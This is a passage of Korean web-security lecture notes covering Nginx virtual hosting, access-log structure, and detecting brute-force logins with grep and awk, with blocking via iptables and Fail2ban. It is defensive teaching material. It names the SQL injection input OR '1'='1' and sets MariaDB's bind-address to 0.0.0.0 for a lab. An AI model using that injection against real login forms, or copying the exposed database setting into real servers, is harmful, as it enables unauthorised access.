**출력 예제**:

```
tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      3293/nginx: master
```

✅ **포트가 8888로 변경된 것을 확인!**

**6. 원래대로 복구**:

```nginx
server {
    listen 80 default_server;    # 8888 → 80으로 복구
    # ...
}
```

```bash
$ sudo systemctl restart nginx
```

#### Virtual Hosting (버추얼 호스팅)

**개념**: 하나의 Nginx 서버에서 여러 도메인 서비스

**시나리오**:

```
같은 서버 (IP: 192.168.1.100)에서:
- www.naver.com → 서비스 A 제공
- www.daum.net → 서비스 B 제공
```

**설정 방법**:

**1. 기본 파일 복사**:

```bash
$ cd /etc/nginx/sites-enabled/
$ sudo cp default naver.com
$ sudo cp default daum.net
```

**2. naver.com 설정**:

```bash
$ sudo vi naver.com
```

```nginx
server {
    listen 80;
    server_name www.naver.com naver.com;

    root /var/www/naver;
    index index.html;

    location / {
        try_files $uri $uri/ =404;
    }
}
```

**3. daum.net 설정**:

```bash
$ sudo vi daum.net
```

```nginx
server {
    listen 80;
    server_name www.daum.net daum.net;

    root /var/www/daum;
    index index.html;

    location / {
        proxy_pass http://192.168.1.200;
    }
}
```

**4. 웹 루트 디렉토리 생성**:

```bash
$ sudo mkdir -p /var/www/naver
$ sudo mkdir -p /var/www/daum
```

**5. Nginx 재시작**:

```bash
$ sudo systemctl restart nginx
```

**동작 원리**:



💡 **제약 사항**:

실제로 테스트하려면 DNS 서버 또는 hosts 파일 설정이 필요합니다:

```bash
# /etc/hosts 파일 수정
$ sudo vi /etc/hosts

# 다음 줄 추가
192.168.1.100  www.naver.com naver.com
192.168.1.100  www.daum.net daum.net
```

---

## 🔟 apt vs apt-get

### 📦 패키지 관리 명령어 비교

**질문**: "apt랑 apt-get은 무슨 차이에요?"

**답변**: 거의 동일하지만 미묘한 차이가 있음

| **구분** | **apt-get** | **apt** |
|:-:|:-:|:-:|
| 출시 시기 | 오래됨 (Debian 초기) | 비교적 최근 |
| 사용자 친화성 | 낮음 | 높음 (컬러 출력, 진행 바) |
| 스크립트 사용 | ✅ 권장 | ❌ 비권장 (출력 형식 변경 가능) |
| 업데이트 | apt-get update | apt update |
| 설치 | apt-get install | apt install |
| 제거 | apt-get remove | apt remove |
| 검색 | apt-cache search | apt search |

**내부 동작**:

```
apt-get (Python 스크립트)
  ├── 옵션 파싱
  ├── 의존성 해결
  └── apt 바이너리 호출

apt (바이너리)
  └── 직접 실행
```

💡 **결론**:

> "여러분들은 굳이 구분할 필요는 없어요. 그냥 apt 아니면 apt-get 둘 다 똑같으니까 둘 중에 하나 쓰면 된다고 생각하시면 될 거예요."

---

## 1️⃣1️⃣ 에러 및 Warning 메시지 해석

### ⚠️ 에러 메시지를 두려워하지 마세요

#### 강사님의 조언

💡 **에러 메시지는 친절한 안내자**:

> "여러분들은 제가 컴퓨터를 가르치면서 느끼는 것 중에 하나가 컴퓨터 프로그래밍이나 이런 걸 배우는 친구들이 warning 메시지랑 error 메시지를 굉장히 좀 무서워하는 경향이 있어요. 이런 메시지를 만나면 무서우니까 안 보려고 해, 눈을 돌려요. 그게 아니고 이게 굉장히 아무것도 안 나오고 프로그램이 안 돌아가는 거는 굉장히 위험해요. 내가 뭘 잘못했는지 아무런 정보를 안 주거든요. 근데 이런 warning이나 error를 잘 주는 건 뭐냐면 굉장히 친절한 거예요, 나한테."

#### Warning 메시지 예제 분석

**발생 상황**: Nginx 재시작 시

```bash
$ sudo systemctl restart nginx
```

**Warning 출력**:

```
Warning: The unit file, source configuration file or drop-ins of nginx.service changed on disk.
Run 'systemctl daemon-reload' to reload units.
```

**메시지 해석**:

```
영역 1: "Warning: The unit file... changed on disk."
→ 설정 파일이 디스크에서 변경되었습니다.

영역 2: "Run 'systemctl daemon-reload' to reload units."
→ 해결 방법: systemctl daemon-reload를 실행하세요.
```

**해결 방법**:

```bash
$ sudo systemctl daemon-reload
```

✅ **Warning 해결!**

#### 에러 메시지 읽는 습관

**잘못된 습관**:

```
1. 에러 발생
2. 학생: "아 에러다!" (눈 돌림)
3. Enter 연타로 에러 메시지 화면 밀어버림
4. 강사에게 "안 돼요!" 질문
```

**올바른 습관**:

```
1. 에러 발생
2. 학생: 에러 메시지 천천히 읽기
3. 에러 메시지에서 해결 방법 찾기
4. 해결 방법 실행
5. 그래도 안 되면 강사에게 질문 (에러 메시지 포함)
```

💡 **핵심 메시지**:

> "에러 메시지는 나한테 굉장히 친절한 메시지니까 눈여겨서 봐라."

---

## ✅ Section 2 학습 체크리스트

### 📝 핵심 개념 이해 확인

- [ ] Master Process와 Worker Process의 역할 차이를 설명할 수 있다
- [ ] www-data 사용자를 사용하는 보안 이유를 이해했다
- [ ] MIME Types의 개념과 파일 업로드 취약점을 연결할 수 있다
- [ ] 리눅스에서 확장자가 의미 없음을 이해했다
- [ ] file 명령어로 실제 파일 타입을 판별할 수 있다
- [ ] SSL/TLS 버전을 여러 개 지원하는 이유를 설명할 수 있다
- [ ] 액세스 로그와 에러 로그의 위치를 찾을 수 있다
- [ ] include 구문을 사용하는 이유를 이해했다
- [ ] 가상 호스트 설정을 할 수 있다
- [ ] 에러 메시지를 읽고 해결 방법을 찾을 수 있다

### 🎯 실습 과제

- [ ] nginx.conf 파일의 각 설정 항목 이해하기
- [ ] www-data 사용자의 UID 확인하기
- [ ] mime.types 파일에서 자주 사용하는 파일 타입 찾기
- [ ] file 명령어로 다양한 파일 타입 확인하기
- [ ] 포트 번호를 변경하여 Nginx 재시작하기
- [ ] 에러 로그 실시간 모니터링하기
- [ ] 가상 호스트 설정 파일 만들기

### 📋 핵심 요약

#### 1. Nginx 프로세스 구조

```
Master Process (root) → Worker Process 1 (www-data)
                     → Worker Process 2 (www-data)
```

#### 2. 보안 권한

```
www-data 사용자 = 최소 권한 원칙
→ 해킹당해도 시스템 전체 침해 방지
```

#### 3. MIME Types

```
확장자 → MIME Type 매핑
공격: MIME Type 속이기 → 파일 업로드 우회
방어: 실제 파일 내용 검증
```

#### 4. 리눅스 확장자

```
윈도우: 확장자 필수
리눅스: 확장자 의미 없음 (실행 권한만 중요)
→ file 명령어로 실제 타입 판별
```

#### 5. 에러 메시지

```
에러/Warning = 친절한 안내자
→ 읽고 해결 방법 찾기
```

---

## 🔜 다음 섹션 예고

**Section 3: 웹 로그 분석 및 공격 탐지**

다음 섹션에서는 웹 서버의 액세스 로그를 상세히 분석하며 다음 주제를 다룹니다:

1. **액세스 로그 구조 분석**
   - 로그 필드 상세 설명
   - 정상 로그 vs 공격 로그 구분

2. **grep을 활용한 로그 필터링**
   - 특정 IP 추출
   - 특정 URI 검색
   - 시간대별 로그 분석

3. **공격 패턴 탐지**
   - 브루트 포스 공격 탐지
   - 로그인 실패 패턴 분석
   - SQL 인젝션 시도 탐지

4. **실무 시나리오**
   - 실제 해킹 시도 분석
   - 공격 시간대 특정
   - 차단할 IP 리스트 작성

---

**강의 노트 작성**: Section 2 완료 ✅
**다음 단계**: Section 3 작성 진행 예정
# Section 3: 웹 로그 분석 및 공격 탐지

---

## 📋 학습 목표

이 섹션에서는 웹 서버의 액세스 로그를 분석하여 공격을 탐지하는 방법을 학습합니다:

1. **systemctl 명령어 심화**: 프로세스 관리 및 daemon-reload 이해
2. **액세스 로그 구조 분석**: 정상 로그 vs 공격 로그 구분
3. **로그인 패턴 분석**: 성공/실패 로그 패턴 이해
4. **브루트 포스 공격 탐지**: 로그를 통한 공격 탐지 방법
5. **실무 로그 분석 시나리오**: 실제 공격 사례 분석

---

## 1️⃣ systemctl과 프로세스 관리 심화

### 🔧 systemctl daemon-reload의 의미

#### 프로세스 계층 구조

**모든 프로세스의 부모: init (PID 1)**

```bash
$ ps -ef | more
```

**출력 예제**:

```
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 09:00 ?        00:00:02 /sbin/init
root      1279     1  0 09:00 ?        00:00:00 /usr/sbin/sshd -D
root      8233     1  0 09:05 ?        00:00:00 nginx: master process nginx
www-data  8234  8233  0 09:05 ?        00:00:00 nginx: worker process
www-data  8235  8233  0 09:05 ?        00:00:00 nginx: worker process
root      9914     1  0 09:10 ?        00:00:15 /usr/lib/jvm/java-11-openjdk-amd64/bin/java (tomcat)
```

**프로세스 계층 다이어그램**:



**핵심 포인트**:

| **프로세스** | **PID** | **PPID** | **의미** |
|:-:|:-:|:-:|:-:|
| nginx master | 8233 | 1 | init이 부모 |
| nginx worker 1 | 8234 | 8233 | nginx master가 부모 |
| tomcat | 9914 | 1 | init이 부모 |
| sshd | 1279 | 1 | init이 부모 |

💡 **공통점**:

> "얘랑 얘의 공통점은 뭐예요? 얘랑 얘의 공통점은 부모가 같다라는 거예요. 부모가 같아요. 1번 프로세스. 1번 프로세스가 부모예요."

#### systemctl이 관리하는 프로세스

**systemctl의 역할**:

```
systemctl = init (PID 1) 프로세스를 제어하는 명령어
→ init이 관리하는 모든 자식 프로세스 제어 가능
```

**daemon-reload의 동작**:

```bash
$ sudo systemctl daemon-reload
```

**효과**:



💡 **reload vs restart 차이**:

| **명령어** | **동작** | **서비스 중단** | **사용 시점** |
|:-:|:-:|:-:|:-:|
| restart | 프로세스 종료 후 재시작 | ✅ 중단됨 | 큰 변경사항 적용 시 |
| reload | 설정 파일만 다시 읽기 | ❌ 중단 없음 | 설정 파일만 변경했을 때 |

> "리스타트는 죽였다가 다시 띄우는 거고요. 릴로드 옵션은 그냥 컨피그만 다시 읽는 거라 서비스에 끊김은 없거든요."

---

## 2️⃣ 액세스 로그 구조 분석

### 📊 액세스 로그 위치 및 확인

**로그 파일 위치**:

```bash
/var/log/nginx/access.log
```

**실시간 로그 모니터링**:

```bash
$ sudo tail -f /var/log/nginx/access.log
```

**명령어 옵션**:

| **옵션** | **의미** | **효과** |
|:-:|:-:|:-:|
| -f | follow | 로그가 추가될 때마다 실시간 출력 |
| -n 100 | number | 최근 100줄 출력 |
| -F | Follow + retry | 파일이 삭제되어도 계속 추적 |

### 📝 액세스 로그 구조

**일반적인 로그 형식**:

```
192.168.1.100 - - [18/Dec/2025:10:30:15 +0900] "GET /login.jsp HTTP/1.1" 200 612 "-" "Mozilla/5.0 ..."
```

**필드별 설명**:

| **필드** | **예제 값** | **의미** |
|:-:|:-:|:-:|
| 1. 클라이언트 IP | 192.168.1.100 | 요청한 클라이언트의 IP 주소 |
| 2. 식별자 | - | RFC 1413 신원 확인 (거의 사용 안 함) |
| 3. 사용자 ID | - | HTTP 인증 사용자명 (없으면 -) |
| 4. 날짜/시간 | [18/Dec/2025:10:30:15 +0900] | 요청 시간 (타임존 포함) |
| 5. 요청 라인 | "GET /login.jsp HTTP/1.1" | HTTP 메서드, URI, 프로토콜 버전 |
| 6. 상태 코드 | 200 | HTTP 응답 상태 코드 |
| 7. 응답 크기 | 612 | 응답 바이트 수 (헤더 제외) |
| 8. Referer | "-" | 이전 페이지 URL (없으면 -) |
| 9. User-Agent | "Mozilla/5.0 ..." | 브라우저 및 OS 정보 |

### 📈 정상 로그인 흐름 패턴

#### 시나리오: 정상 사용자의 로그인

**1단계: 로그인 페이지 요청**

```
192.168.1.100 - - [18/Dec/2025:10:30:15 +0900] "GET /login.jsp HTTP/1.1" 200 1024
```

**의미**: 사용자가 로그인 페이지에 접속

**2단계: 로그인 시도 (POST 요청)**

```
192.168.1.100 - - [18/Dec/2025:10:30:20 +0900] "POST /login.jsp HTTP/1.1" 302 0
```

**의미**:
- POST: 로그인 폼 제출
- 302: 리다이렉션 (로그인 처리 후 다른 페이지로 이동)

**3단계a: 로그인 성공 (index.html 접근)**

```
192.168.1.100 - - [18/Dec/2025:10:30:20 +0900] "GET /index.html HTTP/1.1" 200 5120
```

**의미**: 로그인 성공 후 메인 페이지로 이동

**3단계b: 로그인 실패 (다시 login.jsp)**

```
192.168.1.100 - - [18/Dec/2025:10:30:20 +0900] "GET /login.jsp HTTP/1.1" 200 1024
```

**의미**: 로그인 실패 후 다시 로그인 페이지로 이동

#### 정상 vs 실패 로그 비교

**정상 로그인 패턴**:



**로그 예제**:

```
[10:30:15] GET /login.jsp 200       # 로그인 페이지 요청
[10:30:20] POST /login.jsp 302      # 로그인 시도
[10:30:20] GET /index.html 200      # 메인 페이지 이동 (성공!)
```

**실패 로그인 패턴**:



**로그 예제**:

```
[10:30:15] GET /login.jsp 200       # 로그인 페이지 요청
[10:30:20] POST /login.jsp 302      # 로그인 시도
[10:30:20] GET /login.jsp 200       # 다시 로그인 페이지 (실패!)
```

💡 **강사님의 설명**:

> "로그인 페이지가 떴고 로그인.jsp로 포스트가 날라갔고 그 다음에 index.html로 넘어갔어요. 그러면 우리는 이 로그를 보고 뭐라고 할 수 있어요? 로그인에 성공했구나라는 걸 알 수 있겠죠. 근데 이 위에 요걸 보면 뭘 할 수 있어요? 로그인을 불렀고 로그인.jsp가 떴고 그 다음에 또 로그인.html 떴어. 얘는 뭐예요? 아 로그인에 실패했구나 포스트로 날라간 데이터가 틀려서 다시 로그인 페이지가 떴구나라는 걸 알 수 있어요."

---

## 3️⃣ 브루트 포스 공격 탐지

### 🚨 브루트 포스 공격 패턴

#### 공격 로그의 특징

**정상 사용자**:

```
[10:30:15] GET /login.jsp
[10:30:20] POST /login.jsp
[10:30:20] GET /index.html  # 성공

또는

[10:30:15] GET /login.jsp
[10:30:20] POST /login.jsp
[10:30:20] GET /login.jsp  # 실패 (1~2회)
```

**브루트 포스 공격자**:

```
[10:30:01] POST /login.jsp  # index.html 거치지 않고 직접 공격!
[10:30:01] POST /login.jsp
[10:30:02] POST /login.jsp
[10:30:02] POST /login.jsp
[10:30:03] POST /login.jsp
... (초당 수십 개)
```

**공격 특징**:

```mermaid
graph LR
    A[공격자] -->|직접 공격| B[POST /login.jsp]
    B --> C[POST /login.jsp]
    C --> D[POST /login.jsp]
    D --> E[POST /login.jsp]
    E --> F[...]

    style A fill:#ff6b6b
    style B fill:#ff6b6b
    style C fill:#ff6b6b
    style D fill:#ff6b6b
    style E fill:#ff6b6b
    style F fill:#ff6b6b
```

| **구분** | **정상 사용자** | **브루트 포스 공격** |
|:-:|:-:|:-:|
| 초기 접근 | GET /login.jsp | POST /login.jsp (직접) |
| 시도 횟수 | 1~3회 | 수십~수백회 |
| 시도 간격 | 수 초 이상 | 1초에 수십회 |
| 연속성 | 불연속적 | 연속적 |

💡 **강사님의 설명**:

> "그런데 가끔 이제 브루트 포스 공격이나 외부에서 공격이 들어오면은 어떻게 되겠어요? 공격이 들어올 때는 index.html을 거쳐서 들어오는 게 아니라 로그인.jsp 파일로 직접 파라미터를 마구잡이로 쭈루루룩 날리게 되겠죠. 그럼 실제 로그를 보면은 로그인.jsp만 연속적으로 계속 1초에 몇십 개씩 쭈루룩 출력되고 있는 걸 볼 수 있어요."

### 🔍 로그 분석 명령어

#### grep으로 특정 URI 필터링

**로그인 시도만 추출**:

```bash
$ sudo grep "login.jsp" /var/log/nginx/access.log
```

**POST 요청만 추출**:

```bash
$ sudo grep "POST.*login.jsp" /var/log/nginx/access.log
```

**특정 IP의 로그인 시도**:

```bash
$ sudo grep "192.168.1.100.*login.jsp" /var/log/nginx/access.log
```

#### 시간대별 로그 분석

**특정 시간대 로그 추출**:

```bash
# 10시 30분대 로그만 추출
$ sudo grep "18/Dec/2025:10:30:" /var/log/nginx/access.log

# 10시 30분 ~ 10시 35분 사이 로그
$ sudo grep -E "18/Dec/2025:10:3[0-5]:" /var/log/nginx/access.log
```

**시간대별 공격 시도 횟수**:

```bash
$ sudo grep "POST.*login.jsp" /var/log/nginx/access.log | \
  awk '{print $4}' | cut -d: -f2 | sort | uniq -c
```

**출력 예제**:

```
  2 10:25  # 10시 25분: 2회 시도 (정상)
  3 10:28  # 10시 28분: 3회 시도 (정상)
 87 10:30  # 10시 30분: 87회 시도 (공격!)
 92 10:31  # 10시 31분: 92회 시도 (공격!)
 85 10:32  # 10시 32분: 85회 시도 (공격!)
  1 10:35  # 10시 35분: 1회 시도 (정상)
```

#### IP별 로그인 시도 횟수

**IP별 시도 횟수 집계**:

```bash
$ sudo grep "POST.*login.jsp" /var/log/nginx/access.log | \
  awk '{print $1}' | sort | uniq -c | sort -rn
```

**출력 예제**:

```
264 203.0.113.50    # 공격자 IP (264회 시도!)
  5 192.168.1.100   # 정상 사용자 (5회 시도)
  3 192.168.1.101   # 정상 사용자 (3회 시도)
  2 192.168.1.102   # 정상 사용자 (2회 시도)
```

**명령어 해석**:

```bash
grep "POST.*login.jsp" access.log   # POST 로그인 요청만 추출
| awk '{print $1}'                  # 첫 번째 필드(IP)만 출력
| sort                               # IP 주소 정렬
| uniq -c                            # 중복 IP 개수 세기
| sort -rn                           # 개수 역순 정렬
```

---

## 4️⃣ 실무 공격 탐지 시나리오

### 🎯 시나리오: 새벽 시간대 공격 분석

**상황**: 아침에 출근하니 보안팀으로부터 "어제 새벽에 로그인 공격이 있었습니다"라는 보고를 받음

#### Step 1: 공격 시간대 특정

```bash
# 어제 새벽 2시~5시 로그 확인
$ sudo grep "17/Dec/2025:0[2-5]:" /var/log/nginx/access.log | wc -l
```

**출력**:

```
15,432    # 새벽 3시간 동안 15,432개 요청 (비정상적으로 많음!)
```

#### Step 2: 공격 대상 URI 확인

```bash
$ sudo grep "17/Dec/2025:0[2-5]:" /var/log/nginx/access.log | \
  awk '{print $7}' | sort | uniq -c | sort -rn | head -10
```

**출력**:

```
14,850 /login.jsp     # 거의 모든 요청이 login.jsp!
   350 /admin.php
   120 /api/auth
    50 /
    30 /index.html
    20 /favicon.ico
    ...
```

#### Step 3: 공격자 IP 추출

```bash
$ sudo grep "17/Dec/2025:0[2-5]:.*login.jsp" /var/log/nginx/access.log | \
  awk '{print $1}' | sort | uniq -c | sort -rn
```

**출력**:

```
14,850 203.0.113.50   # 주범!
```

#### Step 4: 공격 시작/종료 시간 확인

**공격 시작 시간**:

```bash
$ sudo grep "203.0.113.50.*login.jsp" /var/log/nginx/access.log | head -1
```

**출력**:

```
203.0.113.50 - - [17/Dec/2025:02:15:32 +0900] "POST /login.jsp HTTP/1.1" 200 1024
```

**공격 종료 시간**:

```bash
$ sudo grep "203.0.113.50.*login.jsp" /var/log/nginx/access.log | tail -1
```

**출력**:

```
203.0.113.50 - - [17/Dec/2025:04:58:47 +0900] "POST /login.jsp HTTP/1.1" 200 1024
```

**분석 결과**:

```
공격 시작: 02:15:32
공격 종료: 04:58:47
공격 지속 시간: 약 2시간 43분
총 시도 횟수: 14,850회
평균 속도: 약 90회/분 (1.5회/초)
```

#### Step 5: 차단 조치

**방화벽 규칙 추가** (iptables):

```bash
$ sudo iptables -A INPUT -s 203.0.113.50 -j DROP
```

**Nginx에서 차단** (`/etc/nginx/nginx.conf`):

```nginx
http {
    # ...

    # 특정 IP 차단
    deny 203.0.113.50;

    # ...
}
```

**Fail2ban 설정** (자동 차단):

```bash
# /etc/fail2ban/jail.local
[nginx-login]
enabled = true
port = http,https
filter = nginx-login
logpath = /var/log/nginx/access.log
maxretry = 5  # 5회 실패 시 차단
bantime = 3600  # 1시간 차단
```

---

## 5️⃣ 실무 팁 및 베스트 프랙티스

### 💡 로그 분석 팁

#### 1. 정기적인 로그 모니터링

**cron 작업 등록**:

```bash
# 매일 오전 9시에 어제 로그 분석 보고서 생성
0 9 * * * /usr/local/bin/analyze_logs.sh > /var/log/security_report.txt
```

**분석 스크립트 예시** (`analyze_logs.sh`):

```bash
#!/bin/bash

LOG_FILE="/var/log/nginx/access.log"
REPORT_DATE=$(date -d "yesterday" +"%d/%b/%Y")

echo "=== 보안 로그 분석 보고서 ==="
echo "날짜: $(date)"
echo

echo "1. 총 요청 수:"
grep "$REPORT_DATE" $LOG_FILE | wc -l

echo
echo "2. 로그인 시도 통계:"
grep "$REPORT_DATE.*login.jsp" $LOG_FILE | wc -l

echo
echo "3. IP별 로그인 시도 (상위 10개):"
grep "$REPORT_DATE.*POST.*login.jsp" $LOG_FILE | \
  awk '{print $1}' | sort | uniq -c | sort -rn | head -10

echo
echo "4. 의심스러운 IP (10회 이상 로그인 시도):"
grep "$REPORT_DATE.*POST.*login.jsp" $LOG_FILE | \
  awk '{print $1}' | sort | uniq -c | sort -rn | awk '$1 >= 10'
```

#### 2. 로그 보존 정책

**로그 로테이션 설정** (`/etc/logrotate.d/nginx`):

```
/var/log/nginx/*.log {
    daily                  # 매일 로테이션
    rotate 90              # 90일 보관
    compress               # 압축 저장
    delaycompress          # 압축 1일 지연
    notifempty             # 빈 로그 로테이션 안 함
    create 0640 www-data adm
    sharedscripts
    postrotate
        [ -f /var/run/nginx.pid ] && kill -USR1 `cat /var/run/nginx.pid`
    endscript
}
```

#### 3. 실시간 알림 설정

**로그 모니터링 스크립트**:

```bash
#!/bin/bash

# 실시간으로 로그 모니터링하며 공격 탐지
tail -f /var/log/nginx/access.log | while read line; do
    # login.jsp로 1초에 5회 이상 요청 시 알림
    IP=$(echo $line | awk '{print $1}')
    COUNT=$(tail -100 /var/log/nginx/access.log | grep "$IP.*login.jsp" | wc -l)

    if [ $COUNT -gt 5 ]; then
        echo "[ALERT] 브루트 포스 공격 탐지: $IP ($COUNT회 시도)" | \
          mail -s "보안 경고" admin@example.com
    fi
done
```

---

## ✅ Section 3 학습 체크리스트

### 📝 핵심 개념 이해

- [ ] systemctl daemon-reload의 동작 원리를 이해했다
- [ ] init (PID 1) 프로세스의 역할을 설명할 수 있다
- [ ] 액세스 로그의 각 필드 의미를 안다
- [ ] 정상 로그인 패턴과 실패 패턴의 차이를 구분할 수 있다
- [ ] 브루트 포스 공격 로그의 특징을 설명할 수 있다
- [ ] grep과 awk를 사용한 로그 분석을 할 수 있다
- [ ] 공격 시간대와 IP를 특정하는 방법을 안다

### 🎯 실습 과제

- [ ] 실시간 로그 모니터링 (tail -f) 실습
- [ ] 특정 IP의 로그만 추출하기
- [ ] 시간대별 로그인 시도 횟수 집계
- [ ] IP별 요청 횟수 통계 생성
- [ ] 의심스러운 IP 목록 추출
- [ ] 로그 분석 스크립트 작성

### 📋 핵심 요약

#### 1. systemctl 프로세스 관리

```
init (PID 1) → 모든 서비스의 부모
systemctl daemon-reload → init 재로드 → 모든 자식 재로드
reload vs restart: 설정만 vs 프로세스 재시작
```

#### 2. 정상 로그인 패턴

```
GET /login.jsp → POST /login.jsp → GET /index.html (성공)
GET /login.jsp → POST /login.jsp → GET /login.jsp (실패)
```

#### 3. 브루트 포스 공격 패턴

```
POST /login.jsp (연속적, 초당 수십회)
index.html 거치지 않고 직접 공격
단시간에 대량 요청
```

#### 4. 로그 분석 명령어

```bash
grep "login.jsp" access.log              # 특정 URI
grep "POST.*login.jsp" access.log        # POST 요청
awk '{print $1}' | sort | uniq -c        # IP별 집계
grep "18/Dec/2025:10:30:" access.log     # 시간대별
```

---

## 🔜 다음 섹션 예고

**Section 4: SQL 인젝션 원리 및 실습**

다음 섹션에서는 SQL 인젝션 공격의 원리와 방어 방법을 학습합니다:

1. SQL 쿼리 구조 이해
2. 로그인 페이지 구현 및 취약점
3. SQL 인젝션 공격 시나리오
4. OR '1'='1' 공격 원리
5. 방어 기법 (Prepared Statement 등)

---

**강의 노트 작성**: Section 3 완료 ✅
# Section 4: SQL 인젝션 및 데이터베이스 보안

---

## 📋 학습 목표

1. SQL 쿼리 구조 이해
2. 로그인 페이지 구현 및 취약점 분석
3. SQL 인젝션 공격 원리 (OR '1'='1')
4. 클라이언트 사이드 검증의 한계
5. 버프스위트를 이용한 요청 변조

---

## 1️⃣ 데이터베이스 설정 및 계정 생성

### 📁 MariaDB/MySQL 설정

**설치**:

```bash
$ sudo apt-get install mariadb-server
```

**외부 접속 허용 설정**:

```bash
# 1. 설정 파일 찾기
$ sudo grep -r "127.0.0.1" /etc/mysql/

# 2. 설정 파일 수정
$ sudo vi /etc/mysql/mariadb.conf.d/50-server.cnf

# bind-address 변경
# 변경 전: bind-address = 127.0.0.1
# 변경 후: bind-address = 0.0.0.0

# 3. 재시작
$ sudo systemctl restart mariadb
```

### 🔐 데이터베이스 계정 생성

**로컬 접속** (root):

